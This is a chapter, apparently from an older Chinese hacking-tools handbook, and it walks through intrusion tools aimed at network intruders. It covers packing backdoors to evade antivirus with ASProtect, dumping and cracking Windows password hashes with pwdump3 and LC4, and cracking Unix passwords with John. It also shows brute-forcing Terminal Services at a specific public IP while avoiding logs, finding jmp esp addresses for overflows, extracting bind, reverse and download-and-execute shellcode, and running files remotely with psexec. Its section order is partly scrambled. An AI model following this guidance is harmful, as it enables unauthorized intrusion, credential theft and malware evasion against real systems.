pe-scan 是一个用于检测壳的种类以及脱壳的程序，不过说实在的，pe-scan 的脱壳功能我实在不敢恭维，我想它的最大特色就是其不错的检测功能吧！

pe-scan 不但可以检测出程序所加的壳的种类，还可以检测出壳的入口点、偏移量及 PEP 等。pe-scan 启动后的主界面见图 1，点击“打开”按钮先来选择我们要检测的目标程序，在图 2 中，我们选择 3389Tool.exe 这个程序，见图 2，点击“打开”后 pe-scan 就会自动地检测出该程序所加的壳的种类了，见图 3，pe-scan 检测出 3389Tool.exe 所加的壳的类型为 upx 0.80-1.23。


我们点击一下“oep”按钮，此时 pe-scan 就会报告所检测到的 PEP、偏移量以及入口点地址，这些地址对于脱壳来讲是非常重要的，见图 4。


图 5


图 7


图 6

“高级扫描”是 pe-scan 主要用于检测未知的壳的类型的，它可以为你作出大致的判断，点击“启发特征”下的“PEP”，pe-scan 就会根据 PEP 来判断壳的类型，见图 5。点击“区段 1”，pe-scan 就会根据区段来判断壳的类型，见图 6。另外也可以通过“链特征”来进行判断，见图 7。

## 7.13 ASProtect

对于网络入侵者来讲，为了使自己使用的一些程序不至于被目标系统中所使用的杀毒软件所查杀，一种常用的方法，就是对这些程序进行加壳，可以说这也是目前对付杀毒软件的一种比较有效的方法。

对程序进行加壳的工具有很多，ASProtect 就是其中著名的一个。我们以 ASProtect v.1.23 beta 18 版为例，简单地介绍一下如何对一些程序进行伪装加壳。

ASProtect v.1.23 beta 18 启动后的界面见图 1，这是一个汉化的版本，从主界面上我们可以看到只有五个主要的选项，因为汉化过，我想使用起来应该不是太难。


在“产品名称”一栏中，可以说是我们自己为要加壳的程序所起的一个项目名称，我们可以任意输入，“要保护的文件”就是我们要加壳的程序。在这儿我以 webdavscan.exe 为例，因为我的瑞星 2004 是将 webdavscan.exe 检测成黑客程序来查杀的。“输出文件名”就是加壳后的文件的输出路径及名称，我们随便找个地方存放就可以了，见图 2。


下边让我们到“选项”中，在这儿是加壳的一些参数选项，主要包括了“压缩选项”、“保护选项”和“其它选项”三大类，每类也都有几个详细的加壳选项，我们可以根据自己的需要进行选择，见图 3。


在“注册密钥”中，主要是密钥的用法，缺省为“没有注册密钥”，见图 4。

在“试用信息”中，主要是对我们加壳后的程序进行使用限制与否的选项，缺省为“无限制试用”，我们自己使用的话，当然是不加任何限制的好，见图 5。


图 5

在“方案”中，是加壳的一些信息，我们点击左下角的“开始”，ASProtect 就开始按照我们刚才的选项进行自动加壳了，见图 6。


图 4


图 6

加壳后的 webdavscan.exe 体积达到了 68kb，比未加壳前的大了许多，不过，我的瑞星 2004 16.01.20 已经检测不出它了。对于 nc.exe、sql2.exe 以及一些后门程序，经过过壳后，是完全可以躲过杀病毒软件的，或许以后的杀病毒软件要考虑一下这个问题了。而对于原来那些一直很信任自己的杀病毒软件的朋友，也要当心了，因为这类加过了壳的程序，是很难检测出来的！

## 7.14 unpacker upx

upx 是常用的一款专门给应用程序加壳（压缩）的程序，入侵者通常使用 upx 及类似的程序给一些后门类的程序加壳，以躲过对方系统中的杀病毒软件。而 unpacker upx 恰恰相反，则是一款专门用于脱掉 upx 壳的程序，下边就让我们来看一下它的简单使用。

## 7.15 pwdump3

unpacker upx 运行后的界面见图 1，在“打开 UPX 压缩的可执行文件”一栏中的是我们要脱壳的目标程序，我们可以通过右边按钮来选择，见图 2。


点击“解压缩”按钮后，unpacker upx 就会自动进行脱壳了，并且提示我们选择存放脱壳后的程序的目录，见图 3。

pwdump3 是用来获取 win2k 密码散列的工具。在这之前，pwdump2 非常流行，但是由于 win2k 的出现，导致 pwdump2 失效，所以，针对 win2k 就有了 pwdump3。win2k 中的密码散列使用了 syskey 加密，这就是导致 pwdump2 失效的原因，而 pwdump3 则可以获得使用了 syskey 加密的密码散列。不多说题外话了，现在就开始讲一下 pwdump3 的使用方法：

```text
Usage: PWDUMP3 machineName
[outputFile] [userName]
```

该工具就这一个格式，说一下各个参数的作用：

- `machineName`——计算机名，也可以使用 IP 地址，根据网络状况和个人需要而决定。
- `[outputFile]`——输出文件的位置，如果直接写文件名的话，那么，输出在当前 pwdump3 所在的目录中；也可以指定路径，例如：C:\out_pwhash.txt。
- `[userName]`——用户名，使用哪个用户来 dump 散列就写哪个用户名，注意，这里的用户必须是对方计算机上的一个管理员帐号才可以。

pwdump 的使用方法非常简单，来看一个例子：

```text
E:\hack-tool\pwdump3>pwdump3 python c:\psw.txt aaa
```

```text
pwdump3 (rev 2) by Phil Staubs, e-business technology, 23 Feb 2001

Copyright 2001 e-business technology, Inc.

This program is free software based on pwdump2 by Todd Sabin under the GNU General Public License Version 2 (GNU GPL), you can redistribute it and/or modify it under the terms of the GNU GPL, as published by the Free Software Foundation. NO WARRANTY, EXPRESSED OR IMPLIED, IS GRANTED WITH THIS PROGRAM. Please see the COPYING file included with this program (also available at www.ebiz-tech.com/pwdump3), and the GNU GPL for further details.

Please enter the password >*******
Completed.
```

使用用户名为 aaa 的这个用户 dump 主机 python 的密码散列，并保存到 C 盘根目录下的 psw.txt 文件中。

呵呵，非常简单吧。然后，再用 LC4 导入 psw.txt 文件并进行破解就可以了。


说道著名的 NT 口令破解工具 LC4 的话，应该是无人不知、无人不晓吧。LC4 的破解速度是很多破解软件所不能及的，因此，在破解 NT 密码的过程中，LC4 就成了一个必不可少的工具了。在这里，我就针对 LC4 的一些破解功能的使用方法做个简单介绍。

打开 LC4 后，会默认以向导的模式进入，但是，我不建议使用该模式——因为比较麻烦。关闭向导对话框后，选择菜单“File → New Session”来新建一个工作区。

首先，来看一下破解方式的设置。依次打开菜单“Session → Session Options”，即可选择破解方式（图 1）。有暴力破解、字典破解、暴力加字典破解三种方式；另外，字典和暴力破解时的字符范围还可以根据自己的要求进行详细设置。


图 1

关于这些，和其他破解软件的设置方法类似，就没有必要详细阐述了。接下来主要看看 LC4 的破解功能。

### 1. 菜单“Import → Import From Local Machine”

这一项是用来破解本机密码的，选择该项，然后在快捷按钮栏上选择 LM 按钮，并按下开始键，即可对本机密码进行破解（图 2）。


图 2

### 2. 菜单“Import → Import From Remote Registry”

这是远程破解的功能。当然，使用该功能的前提是先和对方建立一个连接，而且，该连接应为管理员的权限。选择该菜单后，会跳出一个对话框要求远程主机的地址，填入正确地址就可以了。

但是，这里要注意，远程主机只能为 NT，且保证主机的密码没有受到 syskey 的保护，这样才可能进行破解，否则将收到一个错误对话框，报告无法破解（图 3）。


图 3

### 3. 菜单“Import → Import From SAM File”

关于这一项没有什么好说的了，只要搞到了对方的 SAM 文件，那么，使用这一项，读取并对 SAM 文件进行破解就可以了。

### 4. 菜单“Import → Import From Sniffer”

这就是 LC4 的 sniffer 功能，选择该项后，会弹出窗口，要求选择正确的网卡；根据要求，选择当前处于活动状态的网卡后，便可进入 sniffer 的界面（图 4）。


图 4


点击“Start Sniffer”后便可以开始嗅探，如果够幸运的话，就会抓到一些和你进行 SMB 会话的主机的密码散列，然后按“Import”进行破解就可以了。

几种破解功能就简单地讲述完了，最后，说一下破解的技巧。

关于 LC4，其他也就没有什么好细讲的了。我认为，LC4 使用起来还是比较简单的，而且，速度也确实很快，因此，对于平时那些不爱进行密码破解的朋友们，我还是比较推荐的：）希望大家都来试一试哦。

### 5. 菜单“Import → Import From .LC File”

这一项和下面的一项“Import → Import From .LCS(LC3) File”是类似的，很多工具可以捕捉散列并将其转换为 LC 格式，这样，使用 LC4 就可以对这样的文件进行破解了。

### 6. 菜单“Import → Import From PWDUMP File”

PWDUMP 这个工具大家也应该都听说过吧，这是一个专门用来 dump 密码散列的好东西，现在的版本是 pwdump3，pwdump3 甚至可以 dump 下进行了 syskey 加密保护的密码散列，dump 出来的密码散列会保存为其特有的格式，然后，使用 LC4 的该项读取 pwdump 生成的密码散列文件，便可以进行密码破解了。


## 7.17 bladese1.25

小榕的乱刀（bladesel）是一款功能非常强大的、专门用于破解 Unix/Linux 系统账号密码的软件。不但如此，乱刀除了可以用于破解 Unix/Linux 系统帐号口令外，还可以根据我们的需要，定制出各种各样的密码字典来，以供乱刀或别的破解密码程序使用。

第一次启动乱刀时，程序会要求我们输入一些注册信息，我们可以使用如下的方法，打开注册表，在 HKEY_LOCAL_MACHINE 的 SOFTWARE 下建立一个 Banyet 项，然后在其下建立一个 Blade125SE 项，见图 1。这样，我们在启动乱刀时，就不会出现注册信息了，见图 2。


图 2

启动界面做得很酷，点击“确定”后，进入乱刀的主界面，图 3。


图 3

通过“文件”下的“打开密码文件”来选择我们想要破解的 Unix/Linux 系统的密码文件，选择好后，乱刀会自动地显示出密码文件中所有的用户账号，图 4。


图 4

我们用鼠标选中想要破解的帐号，然后点击“添加”按钮，这些选中的帐号就会显示在最右方一栏中了，图 5。


图 5

选择好要破解的帐号后，我们再通过“文件”下的“打开字典文件”来选择要使用的字典文件。选择“文件”下的“开始解码”后，乱刀就会出现“系统设置”菜单，在这儿我们可以选择是否要在乱刀破解出 root 帐号的密码时停止、运行时是否可以中断等等，图 6。


图 6

此后程序就会提示我们大致破解完需要的时间，点击“开始解码”后，程序就开始按照选定的密码字典开始破解了，图 7。


图 7

“设置”下的“字典选项”主要是针对字典使用上的一些设置，通常我们使用默认设置就可以了，图 8。


图 8

下边再让我们来看一下如何使用乱刀来制作自己的字典文件。选择“工具”下的“黑客字典 III”，主要可以使用“字母”、“数字”、“字母加数字”以及特殊符号来制作我们的字典文件，具体的视密码文件而定，图 9。


图 9

乱刀将密码的长度限制为 1--7 位，虽然密码的长度越长，破解的成功率就越高，但同时用于破解的时间也会变得很长。以七位纯数字为例，就有 10 的 7 次方，也就是 1000 万个完全不同的密码排列组合；而如果是八位的话，就有 1 亿个不同的密码排列组合；而七位的纯字母则为 26 的 7 次方个不同的密码排列组合，远超过七位的纯数字，而且即便是纯七位的字母生成的字典文件也是好几百 M 的大小。如果是大于七位的，或是数字与字母混合的，那大小就更不用说了。

在“选项”中我们可以对这些字母或数字进行一些设定，以提高破解的效率，图 10。


图 10

在“文件存放位置”中我们可以选择是否“拆分文件”，如果密码文件很大的话，我们可以选择让密码文件拆分成 2 部分或是更多的部分，而如果很小的话，就不用拆分了。点击“浏览”按钮，选择好要存放字典文件的路径及文件名，图 11。


图 11

在“高级选项”中我们还可以更加自由地定制字典文件，比如哪一位是字母，哪一位是数字，哪一位是符号等等，图 13。不过，除非我们事先知道要破解的帐号的相关特点，才会生成这种特定的字典。


图 13

确定后，乱刀就会出现“字典属性”菜单，将刚才设置的字典文件的相关信息显示出来，包括是使用的字母还是数字、长度、字典的大小以及当前硬盘上剩余的空间大小等等，图 12。如果我们感觉不合适的话，还可以通过“再等一会！”来重新设置字典。点击“开始”按钮后，乱刀就会开始生成字典文件了，完成后会提示我们。


图 12

除了使用字典来破解密码外，乱刀还可以使用“方案文件”方式来破解帐号密码。如何制作这些“方案文件”呢？其实过程与制作字典文件是一样的，只是在设置好了“选项”后，在“方案”中选中“将当前设置写入方案”，通过“浏览”按钮选择好要存放的路径及文件名，图 14。然后同样地会出现“字典属性”菜单，点击“开始”，就会生成方案文件了，图 15。


图 14


图 15

另外，在“工具”中，乱刀还提供了根据英语规则生成字典文件、根据拼音规则生成字典、字典组合、拆分字典等等，图 16。这些我们根据自己的需要来进行操作，限于篇幅，就不再细细描述了。


图 16

## 7.18 John

提起 John 的大名来，恐怕网络安全爱好者中很少有人不知道的。John 是一个专门用于破解口令的工具程序，主要用于破解 UNIX/LINUX 系统中的 shadow 密码文件。针对于不同的系统平台，John 有 UNIX/LINUX 版本及 Windows 版本，下边我们就以 Windows 版本来简单地介绍一下 John 的使用。

```text
G:\hacker\john-16\run>john

John the Ripper Version 1.6 Copyright
(c) 1996-98 by Solar Designer

Usage: john [OPTIONS] [PASSWORD-FILES]
  --single                "single crack" mode
```

```text
--wordfile:FILE   --stdin      wordlist mode,
read words from FILE or stdin
--rules                         enable rules
for wordlist mode
--incremental[:MODE]           incremental
mode [using section MODE]
--external:MODE                external mode
or word filter
--stdout[:LENGTH]              no cracking,
just write words to stdout
--restore[:FILE]               restore an
interrupted session [from FILE]
--session:FILE                 set session file
name to FILE
--status[:FILE]                print status of
a session [from FILE]
--makechars:FILE               make a
```

- `--show` show cracked passwords
- `--test` perform a benchmark
- `--users:[-]LOGIN|UID[,...]` load this `<these>` user(s) only
- `--groups:[-]GID[,...]` load users of this `<these>` group(s) only
- `--shells:[-]SHELL[,...]` load users with this `<these>` shell(s) only
- `--salts:[-]COUNT` load salts with at least COUNT passwords only
- `--format:NAME` force ciphertext format NAME `<DES/BSDI/MD5/BF/AFS/LM>`
- `--savemem:LEVEL` enable memory saving, at LEVEL 1..3

**--single** 参数是最常用的一个参数了，其破解口令的速度很高，但是精度却不高。对于拥有大量用户帐号且密码强度不是太大的口令文件，我们使用这个参数选项就可以了。

```text
G:\hacker\john-16\run>john --show passwd

oracle:oracle:3500:3500:,,,:/home/oracle:/usr/bin/csh
udata:udata:3611:3650:,,,:/home2/udata:/usr/bin/csh
www:www:3800:3800:,,,:/home/www:/usr/bin/csh
tsuru:NO PASSWORD:2026:2000:,,,:/home/abel/tsuru:/usr/bin/csh
h-ueda:NO PASSWORD:2041:2000:,,,:/home/abel/h-ueda:/usr/bin/csh

5 passwords cracked, 3 left
```


John 的参数很多，见图 1，我们来看看最常用的用法。

```text
G:\hacker\john-16\run>john --single passwd

Loaded 3 passwords with 3 different salts <Standard DES [24/32 4K]>

guesses: 0  time: 0:00:00:00 100%  c/s: 2802  trying: root1951 - r1969
```

见图 2，John 已经成功地破解出了 passwd 文件中的五个帐号，因为这几个帐号的密码强度都属于弱口令，所以破解的速度非常快。

**--wordfile** 选项主要是使用字典文件。下边就让我们来看看具体的使用格式。

```text
G:\hacker\john-16\run>john --wordfile:sagipass.txt passwd
```sagipass.txt 就是我们的字典文件，理论上，我们的字典文件越强壮，破解帐号的可能性也就越高，当然速度也就会越慢。

虽然为了破解的成功率，我们可以将字典文件做得很大，但是仍然会有一些帐户是使用字典文件破解不了的，此时我们就需要一种类似于暴力破解的方法，`-incremental` 选项就是实现这个目的的。

```text
G:\hacker\john-16\run>john -incremental passwd

Loaded 3 passwords with 3 different salts (Standard DES [24/32 4K])
```

图3

当然，这种方法是最费时的了，不过，如果你的电脑够强，而且又有足够的时间，为了对方的 root 帐户的密码，我们还是值得这么做的，见图3。

## 7.19 Brutus-AET2

Brutus-AET2 是一个远程猜解用户口令的程序，实际上这类用于远程猜解用户口令的程序我很少使用，对我来讲，它们既费时，又费力，并且效果也不怎么好，特别是对于 UNIX/LINUX 系统，你很难指望使用这类程序可以轻松地猜解出一些帐号来。当然如果你运气好的话，又另当别论。对于 WIN2000/XP 的个人用户来讲，效果会稍好一些，毕竟还是有一些不重视网络安全的个人用户会使用弱口令的。

启动 Brutus-AET2 后的界面见图1所示。“Target”为要猜测的目标主机的 IP 地址，Brutus-AET2 默认使用的用户名文件及口令文件为“user.txt”及“words.txt”，不过 Brutus-AET2 自带的这两个文件，我感觉有点儿太简单了，为了提高猜解的成功率，我重做了用户名文件及口令文件，用户名文件主要由系统内置帐号、国内的常见姓氏及一些常见的英文名组成，而口令文件主要由系统内置帐号、常见的数字组合以及一些常见的英文单词组成。我们可以点击“User File”、“Pass File”右边的“Browse”按钮来选择我们自己的字典文件，见图2。

“Type”为主要猜解的选项，有“HTTP(Basic Auth)”、“HTTP(Form)”、“FTP”、“POP3”、“Telnet”、“SMB(NetBIOS)”、“Custom”、“NetBus”等八项。其中，最常用的就是“Telnet”，可以用于远程猜解 UNIX/LINUX 系统的远程登录帐号，如果 Windows 系统也开放了 TELNET 服务的话，也可以用来远程猜解 Windows 的登录帐号；“SMB(NetBIOS)”，我们使用这个来远程猜解 Windows 系统的 ipc$ 口令，另外还有 UNIX/LINUX 系统的 SMB 口令；“FTP”，用来远程猜解 FTP 服务的口令，见图3。

我们选择“Telnet”，“Port”端口这一项也会自动地进行调整。点击“Type”右边的“Start”，程序就会自动地进行猜解了。当前猜解的帐号会在最下方显示出来，如果成功地猜解出了帐号的话，也会在界面下方的“Results”栏中显示出来，见图4。

## 7.20 tscrack-beta9

对于 Windows 2000 的终端（3389）服务，我想许多朋友都是很熟悉也是很欢迎的了，因为这种终端服务可以使我们以图形界面远程登录 Windows 2000 系统，就像在家操纵自己的电脑一样来操纵远程主机。一直以来，许多刚接触网络安全的朋友都喜欢使用扫描程序来寻找存在弱口令并且开放终端服务的 Win2000 系统，不过现在这种弱口令已经很少了。当然我们还可以利用别的方法，比如利用脚本注入漏洞、远程溢出漏洞甚至是穷举破解对方的登录帐号。

tscrack.exe 就是一个专门用于破解远程 Windows 2000 系统终端（3389）服务的口令破解程序，它的使用格式为：

```text
tscrack [选项] [选项 [参数]] IP 端口
```

```text
tscrack -t -N -B -m 7 -x 8 61.177.215.226 3389
```

“-t”为同时使用两个连接来进行破解；“-N”为尽可能地在破解时不被对方的日志所记录；“-B”为使用暴力模式；“-m 7”为最小的口令长度为 7，“-x 8”为最大的口令长度为 8，当然口令长度视具体情况而定。不使用“-l”参数指定破解的帐号时，默认帐号为“Administrator”。

运行后，我们就会在屏幕上看到两个 Win2000 终端服务的登录窗口，并且在自动进行口令的验证了，见图2。

参数有许多，见图1，当然了，这么多的参数我们在实际的使用过程中也不是全部都用到。

```text
F:\hacker\win2000\tscrack-beta9>
```

倘若因为网络或别的原因，登录界面不再继续检测了，我们可以点击一下“确定”，tscrack 就会对帐号继续进行检测。

## 7.21 Base64

Base64.exe 是一个用于破解使用 Base64 方式加密密码的小程序，启动后我们在 Base64 的右栏中输入加密的密码，在左栏中就会显示出破解后的明文密码了，见下图。

## 7.22 jmpesp

jmpesp.exe 是 sunx 编写的一个专门用于自动寻找 Windows 系统内 jmp esp 及 jmp ebx 地址的程序。我们知道，jmp esp 及 jmp ebx 地址是溢出程序中最常使用的两种跳转地址，也就是跳转到这个地址处开始执行 shellcode。对于一些精通汇编程序的高手来讲，可以通过手工的方法来找到这些跳转地址；但是对于许多不太精通汇编程序的朋友来讲，使用 jmpesp.exe 就可以让他们轻松地做到这点。

jmpesp.exe 的使用格式如下：

```text
G:\hacker\win2000>jmpesp

jmpesp, written by sunx
http://www.sunx.org

usage: jmpesp [<jmptype> [dllname] ...]

jmpesp      : 1
jmpebx      : 2
jmplebp+0c] : 3
```

```text
GetProcAddress: 0x77E69AC1
WinExec: 0x77E7A7AF
ExitThread: 0x77E675E2
```

我们可以看出，jmpesp.exe 主要可以寻找 jmp esp 地址、jmp ebx 地址，另外还可以寻找 ebp+0c 这样的地址，见图1。

以上是 jmpesp.exe 在我的中文 Win2000 专业版 +SP2 上找到的 jmp esp 地址，其中 user32 中的 0x77e0492b 以及 0x77e1af64 这两个 jmp esp 地址我们就可以来调用，见图2。

```text
G:\hacker\win2000>jmpesp
jmpesp, written by sunx
http://www.sunx.org

usage: jmpesp [<jmptype> [dllname] ...]
    jmpesp      : 1
    jmpebx      : 2
    jmplebp+0c] : 3

G:\hacker\win2000>
```

```text
G:\hacker\win2000>jmpesp 1
jmpesp, written by sunx
http://www.sunx.org

User32:
BaseAddress: 0x77df0000
0x77e0492b [JMP ESP]
0x77e07741 [CALL ESP]
0x77e1af64 [JMP ESP]

Kernel32:
BaseAddress: 0x77e60000
0x77e6250a [CALL ESP]

LoadLibraryA: 0x77E6A254
GetProcAddress: 0x77E69AC1
WinExec: 0x77E7A7AF
ExitThread: 0x77E675E2

G:\hacker\win2000>
```

默认情况下，jmpesp.exe 寻找的是 user32 中的 jmp esp 及 jmp ebx 地址，我们还可以用来寻找指定 dll 文件中的地址。

```text
G:\hacker\win2000>jmpesp 1

jmpesp, written by sunx
http://www.sunx.org

User32:
BaseAddress: 0x77df0000
0x77e0492b [JMP ESP]
0x77e07741 [CALL ESP]
0x77e1af64 [JMP ESP]

Kernel32:
BaseAddress: 0x77e60000
0x77e6250a [CALL ESP]

LoadLibraryA: 0x77E6A254
```

```text
G:\hacker\win2000>jmpesp 2 ws2_32.dll

jmpesp, written by sunx
http://www.sunx.org

ws2_32.dll:
BaseAddress: 0x74fb0000
0x74fb186a [CALL EBX]
0x74fb3260 [CALL EBX]
0x74fb32ac [CALL EBX]
0x74fb435b [JMP EBX]
```

图3中就是我们以 ws2_32.dll 为例，寻找到的 jmp ebx 地址。

随着系统及 SP 的不同，我们找到的这些地址也会不一样，比如 WINXP 及 WIN2000 中的地址，WIN2000+SP3 及 WIN2000+SP4 中的这些地址都是不一样的。

## 7.23 sac

sac.exe 是红客联盟的 lion 编写，专门用于在 Windows NT/2000/XP/2003 系统中自动寻找返回地址，主要包括了 EAX、EBX、ECX、EDX、ESI、EDI、ESP、EBP 及 XPRET 等九类。

图1是它的使用格式。从图1中我们可以看出，sac.exe 的使用主要有两种方式，一种是使用“-r”参数来指定寻找的返回地址类型，另一种是使用“-d”参数来指定 dll 文件，以在该文件中寻找特定的返回地址。

```text
F:\hacker\win2000\shelltool>D:\sac -r EBX
Search ASM Code Tool for Overflow
exploit V0.20
Code by lion <lion@cnhonker.net>
```

```text
Welcome to HUC website http://www.cnhonker.com

Search Mode of Register: EBX
Start Search ASM Code in: msvcrt.dll

0x780052F8    call ebx
0x78005322    call ebx
...
0x780220F8    jmp ebx
0x7802B405    call ebx

Search end.
Found 10 addr.
```

```text
Search ASM Code Tool for Overflow exploit V0.20

Code by lion <lion@cnhonker.net>

Welcome to HUC website http://www.cnhonker.com

Search Mode of Register: ESP

0x77DF444C    call esp
0x77E188A7    jmp esp
0x77E1BC34    call esp
0x77E1D3F7    call esp

Search end.
Found 4 addr.
```

以我的中文 WIN2000 专业版 +SP3 为例，在找到的十个 ebx 地址中发现了一个 jmp ebx 地址，见图2。

```text
F:\hacker\win2000\shelltool>sac -r ESP
-d user32.dll
```

在图3中，我们指定在 user32.dll 中寻找 jmp esp 地址。通过比较，我们会发现，sac.exe 找到的地址与使用 sunx 的 jmpesp.exe 找到的地址是一样的。

## 7.24 提取 shellcode 的三个程序

shellcode 是溢出程序中很重要的组成部分，通常是在某个特定的端口绑定一个 CMD，也就是在我们向目标系统发出了溢出数据请求，并成功地触发了一个溢出后，想要执行的命令 shell。然后我们再使用 NC 或 TELNET 来远程连接。还有一种是反向连接到我们自己的电脑上，这样我们在本机上进行监听，就可以在某个特定的端口上得到对方的一个 CMD shell。还有一种就是从某个网址上下载某个特定的程序（诸如木马或远程控制程序的服务端）并执行的 shellcode，或是自动在目标系统中添加一个后门帐号的 shellcode，可以说这也是目前最常用到的几种 shellcode 了。

```text
["Hacker\shellcode\bindshellcode
381 + 184 = 481
...
```

图1

```text
["Hacker\shellcode\backshellcode
282 + 93 = 374
...
```

图2

```text
["Hacker\shellcode\downshellcode
245 + 93 + 27 = 366
...
```

图3

那么如何正确地提取出 shellcode 以在溢出程序中进行引用呢？一直以来，这种技术都是掌握在很少一部分精通汇编程序的“牛”人手中，当然另一种简单的方法就是直接引用其他溢出程序中的 shellcode，但是这样直接引用的 shellcode 存在问题，有的是可以正常工作的，有的却不能。关于如何提取 shellcode 的相关技术及文章在网上很少公布，我也只是在红客联盟及 david 这两个网站上找到了相关描述。

这三个程序就是在红客联盟的网站上公布的专门用于提取 Windows 系统中的 shellcode 的，程序没有什么使用格式，直接运行就可以在屏幕上显示出 shellcode 列表了，图1提取的就是一个 bind shell 的 shellcode，图2提取的为一个反向连接的 shellcode，图3提取的则是下载某个程序并执行的 shellcode。

在 Internet 上开放远程登录服务，也就是 telnet 服务的 Windows 主机并不多，即使开放的，也绝大多数都有 NTLM 认证，但是 Internet 上的 UNIX/LINUX 主机却恰恰相反，有相当数量的 UNIX/LINUX 主机都提供了远程登录服务。

UNIX/LINUX 提供的远程登录服务主要有两种，一种就是常见的 telnet 服务，这和 Windows 系统下的 telnet 服务没什么不同，而在 UNIX/LINUX 以及 Windows 系统中也都自带了 telnet 客户端程序，我们可以方便地使用 Windows 系统下的 telnet 程序来连接远程 Windows 系统，或者是连接远程 UNIX/LINUX 系统，只要对方开放了远程连接（telnet）服务。同样，使用 UNIX/LINUX 系统也可以方便地做到这点。但是使用 telnet 来远程登录，其数据传输是采用明文方式的，极易被 sniffer 类的程序所监听，因此为了让传输变得更加安全，在 UNIX/LINUX 系统中又广泛地使用了 SSH 来代替 telnet，在 Internet 上开放了 SSH 服务的主机是很多的，而在 UNIX/LINUX 系统中也都提供了 SSH 的客户端连接程序，我们只需要拥有远程主机的合法账号及口令就可以使用客户端来连接对方的 SSH（通常为 22 端口）。

但遗憾的是，在 Windows 下却没有相应的客户端程序，这使得我们要想在 Windows 下来连接远程 UNIX/LINUX 系统的 SSH 的话，只能通过第三方工具程序，而 PuTTY 就是其中不错的一款。

双击运行 PuTTY，在“Host Name(or IP address)”栏中输入远程主机的 IP 地址，在“Protocol”栏中选中“SSH”，此时，“Port”将自动地变为“22”，点击最下方的“Open”按钮就可以了，见图1。

接着 PuTTY 会显示一个提醒的菜单，见图2，大致的意思是说服务器的 host key 没有注册什么的，不用管它，点击“是(Y)”。

然后就会出现一个黑色的登录界面，输入目标主机的用户帐号及密码，如果一切正确的话，我们就可以登录进对方的系统，得到一个 shell 了，见图3。

PuTTY 除了支持 SSH 登录外，还支持 Telnet、Rlogin、Raw 等几种登录方法。对于在 Windows 下远程登录 UNIX/LINUX 系统，确实是一个不错的终端程序。

## 7.26 pstools

本篇文章是基于 pstools 1.6 版本。pstools 是 sysinternals 出的一个功能强大的 NT/2K 远程管理工具包。

它的主页为 http://www.sysinternals.com/

下载地址为 http://www.sysinternals.com/files/Pstools.zip

假设我在远程机器 IP 有一个账号，账号名是：abc，密码是：123。比如想要用 telnet 一样在远程系统上执行命令：

```bash
psexec \\远程机器ip -u abc -p 123 cmd
```

### 1. psexec

psexec 是一个远程执行工具，你可以像使用 telnet 一样使用它。

它的使用格式为：

```bash
psexec \\远程机器ip [-u username [-p password]] [-c [-f]] [-i] [-d] program [arguments]
```

如果想要远程机器执行本地 c:\srm.exe 文件：

```bash
psexec \\远程机器ip -u abc -p 123 -c c:\srm.exe
```

如果想要让远程机执行本地 tftp 服务端（假设 tftp 服务端在本地 c:\tftp32.exe），可以这样：

```bash
psexec \\远程机器ip -u abc -p 123 -c c:\tftp32.exe -d
```

（后面例子不再重复 -u 和 -p 的用法）

它的参数有：

- `-u` 后面跟用户名。
- `-p` 后面是跟密码的，如果建立 IPC 连接后这两个参数则不需要，如果没有 `-p` 参数，则输入命令后会要求你输入密码。
- `-c <[路径]文件名>`：拷贝文件到远程机器并运行（注意：运行结束后文件会自动删除）。
- `-d`：不等待程序执行完就返回，比如要让远程机器运行 tftp 服务端的时候使用，否则 psexec 命令会一直等待 tftp 程序结束才会返回。
- `-i`：在远程机器上运行一个名为 psexesvc 的进程。

### 2. psservice

psservice 是一个服务管理程序。它的使用格式为：

```bash
psservice [\\远程机器ip [-u username] [-p password]] <command> <options>
```

它的参数只有：

- `-u`：后面跟用户名。
- `-p`：后面是跟密码的，如果建立 IPC 连接后这两个参数则不需要；如果没有 `-p` 参数，则输入命令后会要求你输入密码。

它的 command 有：

- `query [服务名]`：显示某一服务的状态，如不填服务名则显示所有服务的状态。
- `config <服务名>`：显示某一服务的配置。
- `start <服务名>`：启动某一服务。
- `stop <服务名>`：停止某一服务。
- `restart <服务名>`：停止某一服务并重新启动它。
- `pause <服务名>`：暂停某一服务。
- `cont <服务名>`：恢复暂停的服务。
- `depend <服务名>`：显示某一服务依存关系。
- `find <服务名>`：在网络中搜寻指定的服务。

比如你想查看远程机器上的 telnet 服务的状态，可以这样：

```bash
psservice \\远程机器ip query tlntsvr
```

（tlntsvr 为 telnet 服务的服务名）

比如你查看远程机器上的 telnet 服务的配置时，可以这样：

```bash
psservice \\远程机器ip config tlntsvr
```

你想启动远程机器上的 telnet 服务可以这样：

```bash
psservice \\远程机器ip start tlntsvr
```

其他用法以此类推。

### 3. pssuspend

pssuspend 是一个暂停进程的软件。它的使用格式为：

```bash
pssuspend [-r] [\\远程机器ip [-u username] [-p password]] <process name | process id>
```

它有三个参数：

- `-u`：后面跟用户名。
- `-p`：后面是跟密码的，如果建立 IPC 连接后这两个参数则不需要；如果没有 `-p` 参数，则输入命令后会要求你输入密码。
- `-r`：恢复进程。

比如要暂时停止一个 PID 号为 999、名称为 srm.exe 的进程，可以这样：

```bash
pssuspend \\远程机器ip 999
pssuspend \\远程机器ip srm
```

如果想要恢复它，就可以 `pssuspend -r \\远程机器ip 999` 或 `pssuspend -r \\远程机器ip srm`。

### 4. psinfo

psinfo 是一个搜集机器软硬件信息的工具，它可以获得操作系统信息、硬件信息和软件信息。

它的使用格式为：

```bash
psinfo [-h] [-s] [-d] [-c] [\\远程机器ip [-u username [-p password]]]
```

它的参数有：

- `-u`：后面跟用户名。
- `-p`：后面是跟密码的，如果建立 IPC 连接后这两个参数则不需要；如果没有 `-p` 参数，则输入命令后会要求你输入密码。
- `-h`：显示它安装了哪些补丁包。
- `-s`：显示它装了哪些软件。
- `-d`：显示磁盘信息。

比如我只想看远程机器的软硬件信息，只需：

```bash
psinfo \\远程机器ip
```

假如我还想看看它装了哪些补丁包，可以：

```bash
psinfo -h \\远程机器ip
```

假如我还想看看它磁盘信息，可以：

```bash
psinfo -d \\远程机器ip
```

如果我想看它装了哪些软件，可以：

```bash
psinfo -s \\远程机器ip
```

简单吧。

### 5. pslist

pslist 是一个查看进程的程序。

它的使用格式为：

```bash
pslist [-d] [-m] [-x] [-t] [-s [n] [-r n]] [\\远程机器ip [-u username] [-p password]] [name | pid]
```

它的参数有：

- `-u`：后面跟用户名称。
- `-p`：后面是跟密码的；如果建立 IPC$ 连接后这两个参数则不需要，如果没有 `-p` 参数，则输入命令后会要求你输入密码。
- `-s`：使用任务管理器模式实时查看进程，可以按 ESC 键退出。
